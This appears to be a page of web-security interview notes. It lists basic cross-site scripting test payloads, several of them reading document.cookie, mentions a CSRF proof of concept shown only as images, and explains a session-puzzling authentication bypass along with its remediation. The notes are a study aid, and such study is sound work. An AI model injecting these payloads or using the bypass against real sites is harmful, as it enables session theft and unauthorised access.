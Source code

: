 <script>alert(1)</script>

<sCrIpT>alert(document.cookie)</sCrIpT>

<img src = x onerror= alert(document.cookie)>

<img src = x onerror=prompt(1)>

if space is not allowed:

<img/src/onerror=prompt(8)>

<img onmouseover="alert('xss')">

<img src=# onmouseover="alert('xss')">

<a onmouseover=alert(document.cookie)>xxs link</a>

# CSRF POC without the need of manual intervention for clicking submit attack

![image](https://github.com/pravalika7k/Interview/assets/163530288/6530b37d-8433-47b3-b497-258c7602f2a0)

![image](https://github.com/pravalika7k/Interview/assets/163530288/08b78c20-4334-4147-8eef-0e8faeb7177d)


NSApp Transport Security
------------------------

NSApp Transport security acts as a hsts header for IOS apps.

Session Puzzling Attack
------------------------

watch:

https://youtu.be/-DackF8HsIE?si=WJz26B2yguMSr7L8

This mostly occurs at reset password endpoint where upon validating the username/email for reset password, username gets stored over the session variable thus creating a session token for that user. Now you'll open another tab for accessing a internal page of the app which only authenticated user can access.

As session token is generated earlier during session variable generation and that session token will be stored by the browser when sent from the server.

when the internal page is requested without actually doing authentication, the saved session token is being used here and internal page of the app will be viewed.

Here we were able to bypass the authentication schema by session puzzling attack.

Remediation:

Instead of storing the username in session variable, name it as authenticated and tag it to that specific user session ID.
